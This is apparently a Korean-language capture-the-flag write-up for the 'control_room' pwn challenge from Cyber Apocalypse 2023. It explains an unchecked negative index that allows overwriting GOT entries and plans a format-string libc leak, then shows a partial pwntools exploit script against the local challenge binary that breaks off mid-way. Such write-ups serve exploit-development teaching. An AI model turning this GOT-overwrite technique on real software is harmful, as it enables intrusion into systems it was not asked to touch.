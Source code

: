 먼저, `configure_engine`함수를 살펴보자.

해당 함수에서, 입력받은 `num`값을 통해, 전역변수 `engines`에서 `16 * num`만큼 떨어진 값에다가, 다시 입력한 값을 저장하는 것으로 분석되는데, 여기서 중요하게 여겨볼 것은, `num`이 3이하의 값임을 점검하는 과정에서, `음수를 검사하지 않는 다는 점`이다. `engines`는 전역변수로 `bss`영역에 존재하는데, 해당 값에서 음수 값을 적절히 준다면, `.GOT.PLT`영역의 값을 적절히 바꾸어 쓸 수 있게 된다. `(Partial RELRO)`

이 아이디어를 가지고 `egines`와 `PLT` 영역을 살펴보자.

![image](/assets/images/Cyber Apocalypse 2023 - The Cursed Mission/control_room/control_room5.png)

에상대로, `engines` 변수는 `bss section`에 존재한다. `(ADDR:0x405120)``

![image](/assets/images/Cyber Apocalypse 2023 - The Cursed Mission/control_room/control_room6.png)

IDA에서, `Read / Write 권한`이 있는 `_got_plt`영역을 찾았다. 해당 부분은 `engines`부분보다 앞에 존재함으로, 음수 값을 통해 적절히 `overwrite`할수 있을 것으로 보이는데, offset을 따로 계산하는 과정이 있었음으로, 위의 주소에서 끝자리가 0인 함수들만 `overwrite`할 수 있게된다.

적절히 계산하여, `libc leak`을 진행해보도록 하자.

## libc leak

먼저, 프로그램이 시작하면 실행되는, `user_register`함수 내부에서, 사용자가 입력한 값이 그대로 인자로 들어가는 `strlen`함수에 주목했고, `menu` 함수에서 `default` 내부에서 실행되는 `exit` 함수에 주목하였다.

또한 `printf plt`가 존재하기에 `strlen`함수를 `printf` 함수로 바꾸어, `formmat string bug`를 통해 libc leak을 진행하면 될 것으로 생각하였다. 그리고 `user_register`에서 `strlen`이 실행되기 때문에, 해당 함수를 실행하기 위해선, `exit`함수를 `user_register`함수로 변경하면 될 것으로 보여 아래와 같은 익스 코드를 작성했다.

```python
from pwn import *

def slog(k, v): return success(f" : ".join([k, hex(v)]))

p = process('./control_room_patched')
e = ELF('./control_room_patched')
libc = ELF('./libc.so.6')

def write(n1,n2,off):
    sleep(0.1)
    p.sendline(b"1")
    p.sendlineafter(b'number [0-3]: ',str(off).encode())
    p.sendlineafter(b'Thrust: ',str(n1).encode())
    p.sendlineafter(b'atio: ',str(n2).encode())
    p.sendlineafter(b'(y/n) \n',b"y")

context.log_level="debug"

payload = b'A' * 0x100
p.sendlineafter(b'Enter a username: ', payload)
p.sendlineafter(b'size: ', b'256')
payload = b'A'*0x9F
p.sendlineafter(b'username: ', payload)

main = e.symbols['main']
strlen_plt = 0x000000000405040

engines = e.symbols['engines']
printf_plt = e.plt['printf']
slog("engines", engines)
slog("main", main)
slog("printf_plt", printf_plt)
slog("strlen_plt", strlen_plt)
strlen_offset = -(engines - strlen_plt) // 0x10
 
p.sendline(b"5")
p.sendlineafter(b'role: ',b"1") #change role to Technician
```